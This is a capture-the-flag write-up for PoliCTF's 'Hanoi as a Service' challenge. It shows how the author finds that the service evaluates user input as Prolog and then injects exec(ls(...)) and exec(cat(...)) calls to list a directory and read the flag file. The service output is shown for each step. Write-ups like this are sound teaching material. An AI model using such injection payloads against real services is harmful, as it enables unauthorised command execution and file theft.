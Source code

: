 ###HANOI AS A SERVICE  
##### 50 points
Question
--
Check out our shiny new HaaS platform!  
`nc haas.polictf.it 80`

Readings
--
* https://en.wikipedia.org/wiki/Tower_of_Hanoi
* https://en.wikipedia.org/wiki/Prolog

Answer
--
Lets see what the service does:  
```
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
```
It seems there is a code to solve [hanoi problem](https://en.wikipedia.org/wiki/Tower_of_Hanoi). Now we try to give it some wrong input:  
```
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
hello hanoi
ERROR: Prolog initialisation failed:
ERROR: Syntax error: Operator expected
ERROR: hanoi(hello
ERROR: ** here **
ERROR: hanoi) .
```
It seems the code is written in [Prolog](https://en.wikipedia.org/wiki/Prolog) so now try to inject some codes:  
```
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3), write('hello hanoi\n'
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
hello hanoi
```  
Now we try to see files in the home directory of `hass`:  
```
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3), exec(ls('/home/ctf/haas')), write('\n'
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
haas
haas-proxy.py
jhknsjdfhef_flag_here
```
Oh yes there is a file named `jhknsjdfhef_flag_here` in the working directory so we try to see the contents:  
```
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3), exec(cat('/home/ctf/haas/jhknsjdfhef_flag_here')), write('\n'
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
```  

#####Flag: `flag{Pr0gramm1ng_in_l0g1c_1s_c00l}`
